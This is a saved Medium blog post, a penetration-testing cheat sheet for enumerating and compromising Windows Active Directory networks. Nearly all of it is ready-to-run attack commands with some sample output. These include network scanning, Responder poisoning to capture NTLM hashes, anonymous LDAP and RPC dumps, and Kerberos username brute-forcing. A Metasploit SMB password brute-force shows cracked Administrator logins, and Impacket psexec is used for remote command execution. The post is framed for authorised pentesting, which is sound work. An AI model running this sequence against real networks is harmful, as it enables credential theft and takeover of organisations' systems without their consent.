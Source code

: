 Enumerating AD infrastructure. First Things First | by mohit panwar | Medium

# Enumerating AD infrastructure

[![1*eTVGaV3MnM4LaDlaUkNUAg.jpeg](../_resources/6441e243ec8bc7e528b29f1112f4b588.jpg)](https://medium.com/@Shorty420?source=post_page-----98e0821c4c78----------------------)

[mohit panwar](https://medium.com/@Shorty420?source=post_page-----98e0821c4c78----------------------)

[Dec 13, 2018](https://medium.com/@Shorty420/enumerating-ad-98e0821c4c78?source=post_page-----98e0821c4c78----------------------) · 4 min read

[![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' width='25' height='25' viewBox='0 0 25 25' data-evernote-id='189' class='js-evernote-checked'%3e%3cpath d='M19 6a2 2 0 0 0-2-2H8a2 2 0 0 0-2 2v14.66h.01c.01.1.05.2.12.28a.5.5 0 0 0 .7.03l5.67-4.12 5.66 4.13a.5.5 0 0 0 .71-.03.5.5 0 0 0 .12-.29H19V6zm-6.84 9.97L7 19.64V6a1 1 0 0 1 1-1h9a1 1 0 0 1 1 1v13.64l-5.16-3.67a.49.49 0 0 0-.68 0z' fill-rule='evenodd' data-evernote-id='190' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://medium.com/m/signin?operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40Shorty420%2Fenumerating-ad-98e0821c4c78&source=post_actions_header--------------------------bookmark_header-)

**> First Things First**
###############
**Discover the endpoints in the network**
> ­Nmap -script broadcast-dhcp-discover
> ­Nbtscan <Network subnet>
— — —
**Attack Surface scanning**

A pentester should always scan/test hosted applications/services to get into the domain infrastructure. Hacking Domain Services is one part of the story but testing any Web Application and/or any other listening port on the server is also important.

> ­Nmap -sC -sV -p- target/network-subnet -oA <dir>
— — —
**DNS scan**

This will give you a Fully Identifiable Domain Name (FQDN) for the IP address and other information about the roles of the target machine.

> ­Dig -t SRV _gc._tcp.<domain fqdn>
> Dig -t SRV _ldap._tcp.<domain fqdn>
> Dig -t SRV _kerberos._tcp.<domain fqdn>
> Dig -t SRV _kpasswd._tcp.<endpoint fqdn>

> ­Nmap — script dns-srv-enum –script-args “dns-srv-enum.domain=’<domain fqdn>’”

— — —
**NetBIOS and LLMNR poisoning:**

You might be very lucky to sniff any NT/NTLM hashes with Responder. Once you have the hast, feed it to the hashcat program [as mentioned in this blog](https://medium.com/@mohitpanwaraws/kerberoasting-9108477279cc) or use it with Empire to do pass-the-hash.

> ­Responder -I eth0 -wrf
###############
**> Getting AD Specific Info**
###############
**Anonymous/Credentialed LDAP data dump**

If you are using Windows for your recon, use [LDAP](http://www.ldapadmin.org/) tool to do Anonymous/Credentialed LDAP data dump or use ldapsearch in kali as mentioned below:

> ldapsearch -LLL -x -H ldap://<domain fqdn> -b ‘’ -s base ‘(objectclass=*)’
— — —
**Netbios:**

Identify NetBIOS names of the endpoints. This will give you a Fully Identifiable Domain Name (FQDN) for the IP address.

> Windows # Nbtstat -a <IP>
> Linux # Nmblookup -A <IP>
— — —
**Enumerating Users:**
> ­Enum4linux -a <IP> or
> Enum4linux -u administrator -p password -a target-ip
Try using anonymous login for RPC login.
> ­Rpcclient -U “” -N <IP>

> ­Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=’<domain>’,userdb=/root/Desktop/usernames.txt <IP>

PORT STATE SERVICE REASON
88/tcp open kerberos-sec syn-ack

| krb5-enum-users:
| Discovered Kerberos principals
| administrator@test
| mysql@test

|_ tomcat@test

> Using bruteforce on Kerberos using metasploit can be very efficient but time consuming. You can use this as a last resort.

> msf > use Auxiliary/gather/Kerberos_enumusers
![1*g0jdU7KdYO8oSi-wou06cw.jpeg](../_resources/403bae84991dbc8fc234dc8e01beeb21.jpg)
![1*g0jdU7KdYO8oSi-wou06cw.jpeg](../_resources/b3eb590e8e4bc470694b411fdf4c6869.jpg)
Username brute-force with Kerberos.

You can also use GetADUsers.py from [Impacket](https://github.com/SecureAuthCorp/impacket)to enumerate all users on the server if you have valid credentials with you.

> GetADUsers.py -all <domain\User> -dc-ip <DC_IP>
— — —
**Password Bruteforce:**
> ­Auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > set PASS_FILE /usr/share/wordlists/ rockyou.txt
PASS_FILE => /usr/share/wordlists/rockyou.txt
msf auxiliary(smb_login) > set USER_FILE /root/Desktop/users.txt
USER_FILE => /root/Desktop/users.txt
msf auxiliary(smb_login) > set RHOSTS 192.168.1.2-10
RHOSTS => 192.168.1.2-10
msf auxiliary(smb_login) > set THREADS 8
THREADS => 8
msf auxiliary(smb_login) > set VERBOSE false
VERBOSE => false
msf auxiliary(smb_login) > run

[-] 192.168.1.2 - FAILED LOGIN (Windows 7 Enterprise 7600) Administrator : (STATUS_ACCOUNT_DISABLED)

[*] 192.168.1.2 - GUEST LOGIN (Windows 7 Enterprise 7600) dale :

[+] 192.168.1.2 - SUCCESSFUL LOGIN (Windows 7 Enterprise 7600) 'Administrator' : 's3cr3t'

[+] 192.168.1.3 - SUCCESSFUL LOGIN (Windows 7 Enterprise 7600) 'Administrator' : 's3cr3t'

[*] Scanned 7 of 9 hosts
[*] Auxiliary module execution completed
msf auxiliary(smb_login) >
> ­Kinit_horizontal_brute.sh <domain> <IP> <username file> <password>
— — —
**Exploring SMB shares**
List out all the available shared paths on the Target server.
> ­smbclient -L \\Domain_Name -I <DC_IP> -N

Check if any of the shared paths is writable. If any shared path is writable with known account credential, we can use Psexec for Remote command execution.

> smbclient //<share path> -I <DC_IP> -N
­

If any path is writable, move directly to the exec.py from [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) withe below

> python /opt/impacket/examples/psexec.py <domain/user>:<password>@<server ip>

Using [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)(CME) to enumerate shares. CME is a very useful framework to automate enumeration and post exploitation. Wait for upcoming series for automating AD enumeration for more.

> crackmapexec <IP> -u ‘<domain\username>’ -p ‘<password>’ --local-auth --shares

###############

**Important note: If any of the above test gives a negative result, keep an eye on your Wireshark traffic. Mostly setting up static DHCP or DNS or Gateway IP address solves such issues. This is a very small thing to underestimate which will affect the pentest in a peculiar way.**

###############
Shout Outs:

[ ## CrackMapExec - Cheatsheet   ### For more information on how to use CrackMapExec Check out our ultimate Guide. For installation Check the GitHub Repo…    #### www.ivoidwarranties.tech](https://www.ivoidwarranties.tech/posts/pentesting-tuts/cme/crackmapexec-cheatsheet/)

[ ## Automating the Empire with the Death Star: getting Domain Admin with a push of a button   ### Ever since Empire and BloodHound, pentesting Active Directory has become pretty straight forward for 95% of the…    #### byt3bl33d3r.github.io](https://byt3bl33d3r.github.io/automating-the-empire-with-the-death-star-getting-domain-admin-with-a-push-of-a-button.html)

[ ## Welcome to PentestGodMod documentation! - Ptest Method 1 documentation   ### Always keep in mind when you have a problem just launch a search over internet about it, 99 % of the time the comunity…    #### pentestgodmod.readthedocs.io](https://pentestgodmod.readthedocs.io/en/latest/)

[ ## Kerberoasting Without Mimikatz   ### Just about two years ago, presented a new attack technique he christened " Kerberoasting ". While we didn't realize the…    #### www.harmj0y.net](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)